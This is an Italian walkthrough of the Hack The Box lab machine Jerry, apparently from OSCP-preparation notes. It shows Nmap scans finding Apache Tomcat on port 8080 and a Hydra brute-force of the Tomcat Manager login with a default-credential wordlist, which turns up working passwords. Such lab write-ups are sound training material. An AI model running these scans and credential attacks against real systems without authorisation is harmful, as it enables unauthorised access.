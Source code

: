 **Target:10.10.10.95**

# INFORMATION GATHERING 

Per prima cosa eseguiamo un rapido scan con [Nmap](Note/Tool/Nmap.md)
```shell-session
┌──(root㉿kali)-[/home/kali/htb/jerry]
└─# nmap -sT --min-rate=5000 10.10.10.95
Starting Nmap 7.94SVN ( https://nmap.org ) at 2023-12-16 22:54 CET
Nmap scan report for 10.10.10.95
Host is up (0.046s latency).
Not shown: 999 filtered tcp ports (no-response)
PORT     STATE SERVICE
8080/tcp open  http-proxy
```

Approfondiamo la versione

```shell-session
┌──(root㉿kali)-[/home/kali/htb/jerry]
└─# nmap -sTV --min-rate=5000 10.10.10.95
Starting Nmap 7.94SVN ( https://nmap.org ) at 2023-12-16 22:54 CET
Nmap scan report for 10.10.10.95
Host is up (0.054s latency).
Not shown: 999 filtered tcp ports (no-response)
PORT     STATE SERVICE VERSION
8080/tcp open  http    Apache Tomcat/Coyote JSP engine 1.1

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 8.77 seconds
```

uno scan su tutte le porte non ci fornice nessuna nuova porta, quindi abbiamo:

- 8080 Apache Tomcat/Coyote JSP engine 1.1

# ENUMERATION

Visitiamo la `http:10.10.10.95:8080` 
![](Hackthebox-OSCP-Prepartion/zzz_rev/attachments/tomcat.png)

se andiamo ad `Manager App` ci chiede nelle credenziali di login 
![](Hackthebox-OSCP-Prepartion/zzz_rev/attachments/tomcat1.png)

Dobbiamo trovare le credenziali  possiamo utilizzare [Hydra](Note/Tool/Hydra.md), e utilizziamo SecList come wordilist dove c'è un lista di credenziali tomcat

```shell-session
┌──(root㉿kali)-[/home/kali/htb/jerry]
└─# hydra -C /usr/share/wordlists/seclists/Passwords/Default-Credentials/tomcat-betterdefaultpasslist.txt http-get://10.10.10.95:8080/manager/html
Hydra v9.4 (c) 2022 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2023-12-16 23:06:54
[DATA] max 16 tasks per 1 server, overall 16 tasks, 76 login tries, ~5 tries per task
[DATA] attacking http-get://10.10.10.95:8080/manager/html
[8080][http-get] host: 10.10.10.95   login: admin   password: admin
[8080][http-get] host: 10.10.10.95   login: tomcat   password: s3cret
1 of 1 target successfully completed, 2 valid passwords found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2023-12-16 23:06:55
```
